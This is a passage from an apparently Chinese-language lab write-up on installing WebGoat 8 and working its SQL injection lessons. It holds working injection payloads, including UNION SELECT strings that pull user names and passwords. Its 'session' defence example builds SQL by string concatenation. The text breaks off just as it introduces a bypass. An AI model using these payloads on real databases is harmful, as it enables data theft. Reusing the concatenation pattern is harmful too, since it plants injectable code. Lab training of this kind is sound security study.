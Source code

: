 ``````
```
https://github.com/WebGoat/WebGoat/releases/download/v8.0.0.M25/webgoat-server-8.0.0.M25.jar
https://github.com/WebGoat/WebGoat/releases/download/v8.0.0.M25/webwolf-8.0.0.M25.jar
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190526224806456.png)
默认是127.0.0.1 ，只能本机访问，需要更改
 java -jar webgoat-server-8.0.0.M25.jar --server.address=0.0.0.0
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019052622534765.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0FpeGl4eHg=,size_16,color_FFFFFF,t_70)
需更新到最新的java版本

```
https://www.oracle.com/technetwork/java/javase/downloads/jdk12-downloads-5295953.html
```
安装java步骤省略，安装好开始运行
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190526230212918.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019052623024422.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0FpeGl4eHg=,size_16,color_FFFFFF,t_70)
访问http://192.168.123.25:8080/WebGoat

#### 6.3.1.4 测试过程
（1）SQL Injection (advanced)

输入除非字符型注入admin' or '1'='1

![1559798103880](assets/1559798103880.png)

![1559798128119](assets/1559798128119.png)

7能正常显示8就不可以正常显示了说明字段为7个

![1559799651338](assets/1559799651338.png)

![1559799681152](assets/1559799681152.png)

Smith' union select 1,'2','3','4','5','6',7 from user_data --

![1559799993320](assets/1559799993320.png)

Smith' union select 1,database(),user_name,password,'5','6',7 from user_system_data --

![1559800167942](assets/1559800167942.png)

![1559800208287](assets/1559800208287.png)



（2）SQL Injection (mitigation)

防御sql注入，其实就是session，参数绑定，存储过程这样的注入。

``` 
// 利用session防御，session内容正常情况下是用户无法修改的
select * from users where user = "'" + session.getAttribute("UserID") + "'";
 
//  参数绑定方式，利用了sql的预编译技术
String query = "SELECT * FROM users WHERE last_name = ?";
PreparedStatement statement = connection.prepareStatement(query);
statement.setString(1, accountName);
ResultSet results = statement.executeQuery();
```
上面说的方式也不是能够绝对的进行sql注入防御，只是减轻。

如参数绑定方式可以使用下面方式绕过。
``````